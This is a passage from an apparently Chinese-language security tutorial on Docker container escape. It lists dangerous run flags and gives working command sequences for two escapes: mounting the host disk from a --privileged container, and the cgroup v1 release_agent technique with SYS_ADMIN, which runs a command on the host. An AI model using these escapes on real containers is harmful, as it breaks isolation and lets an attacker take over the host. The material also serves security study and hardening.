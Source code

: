 ## 0x01.2 docker几个启动参数
以特权模式启动时，docker容器内拥有宿主机文件读写权限，可以通过写ssh密钥、计划任务等方式达到逃逸。

条件:
```
以--privileged 参数启动docker container。
获得docker container shell，比如通过蜜罐漏洞、业务漏洞等途径获得。
```
--cap-add=SYS_ADMIN 启动时虽然有挂载权限，但没发直接获得资源去挂载，需要其他方法获得资源或其它思路才能利用。

--net=host 启动时,绕过Network Namespace  
--pid=host 启动时,绕过PID Namespace  
--ipc=host 启动时,绕过IPC Namespace  
--volume /:/host 挂载主机目录到container  
网络如果没其他配置，docker不添加网络限制参数，默认使用桥接网络，通过docker0可以访问host。

### --privileged 利用
启动Docker容器。使用此参数时，容器可以完全访问所有设备，并且不受seccomp，AppArmor和Linux capabilities的限制。
```
查看磁盘文件: fdisk -l
新建目录以备挂载: mkdir /aa
将宿主机/dev/sda1目录挂载至容器内 /aa: mount /dev/sda1 /aa
即可写文件获取权限或数据
```
容器挂载宿主机目录，执行结果如下:
![docker3](https://raw.githubusercontent.com/tom0li/tom0li.github.io/main/assets/images/docker3.jpg)

### --cap-add=SYS_ADMIN 利用
前提：
```
在容器内root用户
容器必须使用SYS_ADMIN Linux capability运行
容器必须缺少AppArmor配置文件，否则将允许mount syscall
cgroup v1虚拟文件系统必须以读写方式安装在容器内部
```
思路：
我们需要一个cgroup，可以在其中写入notify_on_release文件(for enable cgroup notifications)，挂载cgroup控制器并创建子cgroup，创建/bin/sh进程并将其PID写入cgroup.procs文件，sh退出后执行release_agent文件。

步骤
```
# On the host
docker run --rm -it --cap-add=SYS_ADMIN --security-opt apparmor=unconfined ubuntu bash
# In the container
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
 
echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent
 
echo '#!/bin/sh' > /cmd
echo "ls > $host_path/output" >> /cmd
chmod a+x /cmd
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```
写入output文件到宿主机截图如下